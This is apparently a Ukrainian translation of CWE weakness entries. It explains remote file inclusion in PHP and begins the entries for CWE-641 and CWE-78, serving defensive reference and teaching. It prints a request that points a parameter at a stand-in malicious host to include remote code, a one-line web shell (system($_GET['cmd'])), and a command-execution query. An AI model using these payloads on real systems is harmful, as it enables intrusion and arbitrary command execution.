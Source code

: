Проблема з наведеним вище кодом полягає в тому, що значення $dir жодним чином не обмежено, і зловмисник може маніпулювати параметром 'module_name', щоб примусово включити неочікуваний файл. Наприклад, зловмисник може надіслати запит на наведену вище PHP-сторінку (example.php) із «module_name» «http://malicious.example.com», використовуючи такий рядок запиту:

```
victim.php?module_name=http://malicious.example.com
```

Отримавши цей запит, код встановить для «module_name» значення «http://malicious.example.com» і спробує включити http://malicious.example.com/function.php разом із будь-яким шкідливим кодом. це містить.

Для цього прикладу припустимо, що шкідлива версія function.php виглядає так:

```
system($_GET['cmd']);
```

Тепер зловмисник може піти далі в нашому прикладі та надати рядок запиту таким чином:

```
victim.php?module_name=http://malicious.example.com&cmd=/bin/ls%20-l
```

Код спробує включити шкідливий файл function.php із віддаленого сайту. У свою чергу, цей файл виконує команду, зазначену в параметрі cmd із рядка запиту. Кінцевим результатом є спроба tvictim.php виконати потенційно шкідливу команду, у цьому випадку:

```
/bin/ls -l
```

Зверніть увагу, що наведений вище приклад PHP можна пом’якшити, встановивши allow_url_fopen на false, хоча це не повністю захистить код. Перегляньте потенційні пом’якшення.

# CWE - 641 Неправильне обмеження імен для файлів та інших ресурсів

Програма створює ім’я файлу чи іншого ресурсу, використовуючи вхідні дані від вищестоящого компонента, але не обмежує або неправильно обмежує результуюче ім’я.

### опис

Це може призвести до слабких місць. Наприклад, якщо імена цих ресурсів містять символи сценаріїв, можливо, що сценарій може бути виконано в браузері клієнта, якщо програма коли-небудь відобразить назву ресурсу на динамічно створеній веб-сторінці. З іншого боку, якщо ресурси споживає якийсь аналізатор програми, спеціально створене ім’я може використовувати певну вразливість усередині аналізатора, що потенційно може призвести до виконання довільного коду на сервері. Проблеми залежатимуть від контексту використання таких неправильно сформованих імен ресурсів, а також від наявності вразливостей у цільовій технології чи припущень, які роблять виконання коду можливим.

# CWE - 78 Неналежна нейтралізація спеціальних елементів, які використовуються в команді ОС («Ін’єкція команди ОС»)
